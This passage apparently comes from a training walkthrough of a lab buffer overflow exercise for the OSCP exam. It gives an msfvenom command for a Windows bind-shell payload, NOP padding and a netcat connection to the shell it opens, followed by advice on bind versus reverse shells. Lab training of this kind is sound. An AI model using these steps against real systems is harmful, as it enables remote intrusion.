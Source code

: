
Please see the `Additional Notes` section at the end regarding shell types.


```
msfvenom -p windows/shell_bind_tcp RHOST=10.10.36.168 LPORT=443 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f py
```



Add the generated shellcode to `exploit.py` Ensure the payload variable in `exploit.py` is set to 'buf' and the shellcode is placed above the payload variable in the script order.


Prepend NOPs

We need to add some padding to the payload to allow room for it to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:

```
padding = "\x90" * 16
```



Restart OSCP.exe and then run exploit.py. The application should continue to run and not be in a 'paused' state. From here use `netcat` to connect to the port specified in the `msfvenom` payload and you should get a shell on the target machine.

```
nc 10.10.36.168 443
```



### Additional Notes

This walk through was heavily based on the 'Buffer Overflow Prep' TryHackMe room created by [Tib3rius](https://github.com/Tib3rius). The scripts and methods here are based off this room and I highly recommend completing the room as prep for the OSCP buffer overflow.

For myself this was room was my primary Buffer Overflow prep and I was able to pass the OSCP Buffer Overflow without any issues.

Buffer Overflow Prep: [https://tryhackme.com/room/bufferoverflowprep](https://tryhackme.com/room/bufferoverflowprep)

Tib3rius GitHub: [https://github.com/Tib3rius](https://github.com/Tib3rius)

### Reverse vs Bind shell

An important part of the buffer overflow is the `msfvenom` payload generation. Functionally both bind and reverse shell are fine to use and one does not provide any significant advantage over the other.

If you are taking the OSCP exam I highly recommend using a bind shell as opposed to a reverse shell. Simply put there is less margin for error when the examiner is repeating your process for shellcode generation.

As part of the requirement for passing the buffer overflow you are required to provide your full exploit script. If your script includes shell code for a reverse shell the examiner will need to regenerate the shell code to point back to them.

With bind shell code they can simply copy your script and `netcat` in. As this is less steps and easier for the examiner this is a more preferable and safer approach.
